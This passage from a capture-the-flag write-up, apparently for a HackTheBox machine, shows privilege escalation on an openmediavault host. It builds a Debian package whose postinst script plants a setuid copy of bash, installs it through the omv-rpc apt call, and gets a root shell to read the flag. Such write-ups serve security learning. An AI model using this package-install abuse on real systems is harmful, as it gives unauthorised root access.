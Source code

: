 Next I’ll create the `postinst` script:

```

openmediavault-webgui@derailed:/dev/shm$ cat 0xdf/DEBIAN/postinst
#!/bin/bash
cp /bin/bash /tmp/0xdf2
chmod 6777 /tmp/0xdf2

```

I’ll also need to make sure it’s set as executable:

```

openmediavault-webgui@derailed:/dev/shm$ chmod +x 0xdf/DEBIAN/postinst

```

Now `dpkg-deb` will build it into a `.deb` file:

```

openmediavault-webgui@derailed:/dev/shm$ dpkg-deb --build 0xdf
dpkg-deb: building package '0xdf' in '0xdf.deb'.
openmediavault-webgui@derailed:/dev/shm$ ls
0xdf  0xdf.deb 

```

#### Install with apt RPC

I’ll invoke the RPC, and it returns a strange path in `/tmp`:

```

openmediavault-webgui@derailed:/dev/shm$ /usr/sbin/omv-rpc -u admin apt install '{ "packages": ["/dev/shm/0xdf.deb"] }'
"\/tmp\/bgstatusWWgLhR"

```

But still, `/tmp/0xdf2` is there and SetUID:

```

openmediavault-webgui@derailed:/dev/shm$ ls -l /tmp/0xdf2 
-rwsrwsrwx 1 root root 1234376 Jul 20 17:12 /tmp/0xdf2
openmediavault-webgui@derailed:/dev/shm$ /tmp/0xdf2 -p
0xdf2-5.1# id
uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) euid=0(root) egid=0(root) groups=0(root),996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)

```

Regardless of how I got root, I can read the flag:

```

0xdf2-5.1# cat /root/root.txt
38939b28************************

```
